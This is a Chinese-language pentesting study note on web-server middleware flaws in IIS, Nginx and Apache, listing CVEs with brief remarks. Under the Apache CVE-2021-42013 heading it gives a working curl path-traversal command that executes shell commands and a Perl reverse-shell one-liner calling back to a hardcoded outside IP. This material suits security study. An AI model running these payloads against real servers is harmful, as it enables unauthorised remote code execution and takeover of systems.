 
---
# 一、中间件-IIS

短文件&解析&蓝屏等

1、短文件：信息收集 前面讲过

2、文件解析：还有点用 前面讲过

3、HTTP.SYS：蓝屏崩溃 前面讲过

4、CVE-2017-7269 条件苛刻无意义


# 二、中间件-Nginx

文件解析&命令执行等

## 1、后缀解析 文件名解析

配置不当：该漏洞与Nginx、php版本无关，属于用户配置不当造成的解析漏洞。

CVE-2013-4547：影响版本：Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7

## 2、cve_2021_23017 无EXP有POC

https://github.com/M507/CVE-2021-23017-PoC

## 3、cve_2017_7529 意义不大

# 三、中间件-Apache

RCE&目录遍历&文件解析等

Apache HTTP Server是美国阿帕奇（Apache）基金会的一款开源网页服务器。该服务器具有快速、可靠且可通过简单的API进行扩充的特点，发现 Apache HTTP Server 2.4.50 中针对 CVE-2021-41773 的修复不够充分。攻击者可以使用路径遍历攻击将 URL 映射到由类似别名的指令配置的目录之外的文件。如果这些目录之外的文件不受通常的默认配置“要求全部拒绝”的保护，则这些请求可能会成功。如果还为这些别名路径启用了 CGI 脚本，则这可能允许远程代码执行。此问题仅影响 Apache 2.4.49 和 Apache 2.4.50，而不影响更早版本。

## 1、cve_2021_42013 RCE

```
curl --data "echo;id" 'http://xx.xx.xx.xx/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh

echo;perl -e 'use Socket;$i="47.94.236.117";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## 2、cve_2021_41773 目录穿越
